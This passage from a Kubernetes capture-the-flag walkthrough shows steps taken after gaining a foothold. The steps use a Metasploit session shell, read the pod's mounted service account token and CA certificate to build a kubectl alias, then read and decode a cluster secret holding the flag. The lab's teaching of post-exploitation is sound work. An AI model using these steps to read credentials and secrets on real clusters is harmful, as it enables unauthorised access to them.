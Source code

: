 168. Get a list of sesssions:

        ```shell
        sessions -l
        ```

169. Switch to the new session:

        ```shell
        sessions -i 3
        ```

170. Start a shell:

        ```shell
        shell
        ```

171. Run `bash -i` to make it more friendly.

        ```shell
        bash -i
        ```

172. List the `/` directory:

        ```shell
        ls /
        ```

173. Take a look at the `HINT.txt` file:

        ```shell
        cat /HINT.txt
        ```

174. OK - you've won!

175. Let's use this pod's service account to get a flag. First, set up a kubectl alias:

        ```shell
        tokendir="/run/secrets/kubernetes.io/serviceaccount"
        alias kubectl="kubectl --token=$(cat $tokendir/token) \
        --server="https://kubernetes.default.svc.cluster.local" \
        --certificate-authority=$tokendir/ca.crt \
        -n $(cat $tokendir/namespace)" 
        ```

176. Now, get the flag.

        ```shell
        kubectl get secret flag-gibson -o yaml
        ```

177. Decode the flag:

        ```shell
        kubectl  -n ellingson-min get secret flag-gibson -o yaml | \
        grep flag: | awk '{print $2}' | base64 -d
        ```

178. The flag looked something like this:

        ```
        you-hacked-the-gibson-FLAG-ebcf7d1d-35e8-4e7a-a547-c9a5e364d5ee
        ```

